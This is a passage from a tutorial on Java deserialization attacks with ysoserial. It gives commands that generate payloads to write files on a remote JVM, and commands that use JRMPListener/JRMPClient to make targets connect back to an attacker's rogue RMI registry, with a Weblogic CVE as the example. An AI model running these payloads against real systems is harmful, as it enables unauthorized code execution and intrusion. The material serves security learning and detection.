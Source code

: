 ```sh
java -jar ysoserial.jar FileUpload1 "write;/tmp;CONTENTSOFTHEFILE"
```

This will make the remote JVM to save a randomly named file with content CONTENTSOFTHEFILE in /tmp directory.

## 4.2 RMI相关

There are two ysoserial payloads dedicated to exploitation of RMI Registries. However, after [JEP290 remote exploitation of RMI Registries is a lot more difficult](https://mogwailabs.de/en/blog/2019/03/attacking-java-rmi-services-after-jep-290/).

These payloads were designed to be used together — `JRMPListener` opens a dummy RMI Registry and `JRMPClient` allowed for remote exploitation of it if the target JRE is not patched with JEP290.

Also, `JRMPListener` can be used to host a payload on a rogue RMI Registry to be deserialized, and `JRMPClient` can be used against the target to connect back to attacker's registry and deserialize the payload. This is used in e.g. Weblogic CVE-2018–2628 [https://www.exploit-db.com/exploits/44553](https://www.exploit-db.com/exploits/44553). The listener can be opened using command

```sh
java -cp ysoserial.exploit.JRMPListener <port> <payload_type> <payload_arguments>
```

![](https://miro.medium.com/max/1210/0*qQezrW2iyM4_tlYr.png)

Even if you won't get RCE this way, those two payloads can be used for blind detection of insecure deserialization — since they rely on native Java classes. When used as a standalone payloads, `JRMPClient` will make the deserializing end perform a kind of TCP SSRF trying to connect to RMI Registry (which is a proof that the payload was deserialized), and using `JRMPListener`, you can make the deserializing endpoint open a dummy RMI Registry (without any binding).

```sh
java -jar ysoserial.jar JRMPClient 127.0.0.1:80
```

![](https://miro.medium.com/max/1210/0*MkZfYPc64-o0SIwp.png)

This results in performing a request to the Listener. However, the directory is not created even if the classpath on vulnerable side is complete, which is due to Java being patched.

![](https://miro.medium.com/max/1210/0*fjFKwf9KPXhuFN5J.png)

```sh
java -jar ysoserial.jar JRMPListener 1199
```

This one makes the deserializing end open an empty RMI registry

![](https://miro.medium.com/max/1210/0*A62YW5TLN4oIxxq0.png)

![](https://miro.medium.com/max/1210/0*1Ibz-kw5dTY5Capf.png)

## 4.3 Object Lookup (JNDI)
